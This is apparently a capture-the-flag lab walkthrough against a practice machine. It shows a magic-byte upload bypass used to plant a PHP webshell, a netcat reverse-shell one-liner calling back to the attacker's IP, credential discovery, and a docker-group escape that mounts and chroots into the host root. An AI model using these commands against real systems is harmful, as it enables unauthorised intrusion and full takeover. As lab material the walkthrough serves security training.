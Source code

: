 ![](https://i.imgur.com/UaeX0sB.png)

## Initial Enumeration

```bash
❯ nmap -sCV 10.10.63.32

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 15:56 WAT
Nmap scan report for 10.10.63.32
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Death Note - Add Names
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.86 seconds
```

- port `80` (web-server) is open let check it out:

![](https://i.imgur.com/oEN1kPB.jpeg)

- and look what we have an upload page and from the Description it looks like it only accept `jpg` files but still i can test if it accept `php` files:

![](https://i.imgur.com/hP9jrOO.png)

- hmn it didn't work but it show me the acceptable `Magic byte`
- so i used a tool called `hexeditor` to change the magic byte of the `webshell.php` file i wanted to upload before
- using `hexeditor`  you only need to Manually type in `FF D8 FF E0` to the first 4 bytes:

```bash
hexeditor webshell2.php
```

![](https://i.imgur.com/rSElmO7.png)

- then hit `CTRL X` to save the change then upload it and it didn't give any error this time so we can assume it works:
- now we need to `FUZZ` for Directory and hopefully we Find where our code was saved too:

```bash
❯ ffuf -u http://10.10.63.32/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 1196 -e php,txt,aspx,png,jpg 
```

![](https://i.imgur.com/yqWEX3H.png)

- we found `/notes` let check it out:

![](https://i.imgur.com/DlGNsOw.png)

- and we found out file 
- Clicking it will execute it depending on what type of code you uploaded

![](https://i.imgur.com/pF3QQAV.png)

- now to get a reverse shell
- make sure listener is up before executing the below command to the webshell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.3.128 1337 >/tmp/f
```

![](https://i.imgur.com/S3Sw4Xv.png)

- stabilize the shell with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL Z [KEY]
stty raw -echo;fg
export TERM=xterm
stty rows 40 cols 160
```

- now that we in i moved around the file system looking for credentials but it was taking too much time so i transfer `linppeas` to the machine and run and it found a `ssh` private key but no username with it:

![](https://i.imgur.com/JbZZD1z.png)

- i saved into a file called `id_rsa` on my machine the i change the permission of the file to `600` and try to `ssh` user the two users in the `/home` Directory together with the private key and the key works for user `ryuk`:

![](https://i.imgur.com/CadJHNg.png)

- in the `ryuk` users home Directory we can see the `user.txt` flag but we don't have permission to read it:

![](https://i.imgur.com/ptadCEA.png)

- the file is owned by the `light` user
- but there is another file i can read `rotedcreds`

![](https://i.imgur.com/jWrMTEA.png)

- the name and the content of the file sounds/looks weird 
- so i copy the content and try to decode it (i asked chatgpt):

![](https://i.imgur.com/wQCZYCg.png)

- no we can confirm using [cyberchef](https://gchq.github.io/CyberChef/) :

![](https://i.imgur.com/k0kAARL.png)

- now lets log-in as user `light` :

![](https://i.imgur.com/51klkOU.png)

## privilege Escalation

- running `sudo-l` i found out that the `light` user can't run anything with sudo:

![](https://i.imgur.com/Ah5qavG.png)

- but Checking the `id` of of the `light` user we will see that the user is among the docker group:

![](https://i.imgur.com/oZXfKlu.png)

- so we can enumerate the docker images running:

![](https://i.imgur.com/zMGeqO6.png)

- then i asked chatgpt on how to use the running image to gain root and it provided me with steps and Explanation:

![](https://i.imgur.com/qbqWnMN.png)


**Run an Alpine Container with Host Access:**

- Start an Alpine container with the `--privileged` flag and mount the host filesystem to `/host` inside the container.

```bash
docker run -it --rm --privileged -v /:/host alpine
```

**Change Root to Host Filesystem:**

- Once inside the container, use `chroot` to change the root directory to `/host`, giving you a root shell on the host.

```bash
chroot /host 
```

**Verify Root Access:**

- Check if you have root access on the host by running:

```bash
whoami && id && hostname && cat /root/root.txt 
```

![](https://i.imgur.com/muZciRx.png)

- and if you want to delete the `deathnote`:

![](https://i.imgur.com/FpS1Ib6.png)

## Thanks For Reading 
